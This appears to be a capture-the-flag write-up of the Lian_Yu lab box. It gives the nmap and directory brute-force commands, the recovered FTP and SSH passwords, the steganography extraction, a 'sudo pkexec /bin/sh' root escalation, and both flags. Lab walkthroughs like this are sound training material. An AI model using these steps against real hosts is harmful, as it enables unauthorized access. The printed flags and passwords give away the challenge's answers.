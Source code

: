 # Lian_Yu

--------------------------------------------------------------------

**TOOLS USED**: nmap, feroxbuster, gobuster, hexeditor, binwalk, exiftool

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.13.58

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info
```
nmap --sC -sV 10.10.13.58
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.2)<br>
    22 (ssh OpenSSH 6.7p1),<br>
    80 (http Apache httpd),<br>
    111 (rcpbind 2-4)

Enumerate hidden directories on webserver
```
feroxbuster -u http://10.10.13.58 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![1.2](./imgs/1.2.png)

Directory of Interest: /island, /island/2100

Found codeword in /island<br>
**CODEWORD**: vigilante

![1.3](./imgs/1.3.png)

Need to get .ticket file

![1.4](./imgs/1.4.png)

Use feroxbuster to find files with .ticket extension<br>
-t THREADS (default 10)
```
gobuster dir -u http://10.10.13.58/island/2100 -x .ticket -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
```

![1.5](./imgs/1.5.png)

**FILE**:/green_arrow.ticket

![1.6](./imgs/1.6.png)

**TOKEN**: RTy8yhBQdscX

Tried using it as ftp password but didn't work<br>
Might be some type of hash

Use cyberchef to identify and crack it

![1.7](./imgs/1.7.png)

**PASSWORD**: !#th3h00d

### 2. FTP LOGIN

```
ftp vigilante@10.10.13.58
```

![2.1](./imgs/2.1.png)

Found images and files

```
cat .other_user
```

![2.9](./imgs/2.9.png)

**USERNAME**: slade

```
binwalk *
```

![2.2](./imgs/2.2.png)

```
exiftool *
```

Leave_me_alone.png has file format error

![2.3](./imgs/2.3.png)

Check header
```
hexeditor Leave_me_alone.png
```

![2.5](./imgs/2.5.png)

Correct png header
```
hexeditor Queen\'s_Gambit.png
```

![2.4](./imgs/2.4.png)

Edit header to match Queen's_Gambit.png

![2.6](./imgs/2.6.png)

Open image

![2.7](./imgs/2.7.png)

**PASSWORD**: password

Use this to unlock other images
```
steghide extract -sf aa.jpg
```

Found ss.zip

```
unzip ss.zip
```

![2.8](./imgs/2.8.png)

**PASSWORD**: M3tahuman

### SSH LOGIN

```
ssh slade@10.10.13.58
```

![3.1](./imgs/3.1.png)

**USER FLAG**: THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}

### 4. PRIVIEGE ESCALATION

Check privileges
```
sudo -l
```

![4.1](./imgs/4.1.png)

slade can run /usr/bin/pkexec as root

from https://gtfobins.github.io/gtfobins/pkexec/#sudo
```
sudo pkexec /bin/sh
```

![4.2](./imgs/4.2.png)

**ROOT FLAG**: THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}